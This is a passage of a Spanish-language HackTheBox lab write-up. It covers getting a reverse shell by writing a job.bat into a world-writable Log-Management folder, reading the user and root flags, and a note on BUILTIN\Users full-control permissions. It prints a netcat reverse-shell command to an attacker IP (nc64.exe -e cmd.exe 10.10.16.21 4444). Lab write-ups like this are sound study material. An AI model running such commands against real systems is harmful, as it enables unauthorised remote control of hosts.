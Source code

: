 *Dato importante:* Probe poniendo doble comillas, comilla simple, capando el -e, pero no me mando la revershell nunca, y si no me aparecia este error, hasta que puse la instruccion de esta forma
![[Markup23.png]]

```
cmd /c "echo C:\Log-Management\nc64.exe -e cmd.exe 10.10.16.21 4444 > C:\Log-Management\job.bat"

El cmd/c lo que haces es ejecutar la instruccion desde una terminal normal y no una powershell, por eso el parametro de -e no da problema. Por que en powershell lo interpreta como un parametro ambiguo y desde la terminal como texto plano
```

#### Y listo ya estamos adentro de la maquina


Con [[type]] podemos catear la flag de user.txt que esta en el escritorio del user daniel y la flag de root.txt esta en el escritorio ed administrator
![[Markup17.png]]

![[Markup25.png]]


------
# Notas


![[Markup20.png]]
Builtin/Users representa a todos los usuarios a nivel local
La F significa full control


--------
# Creditos
Writeup oficial HackTheBox
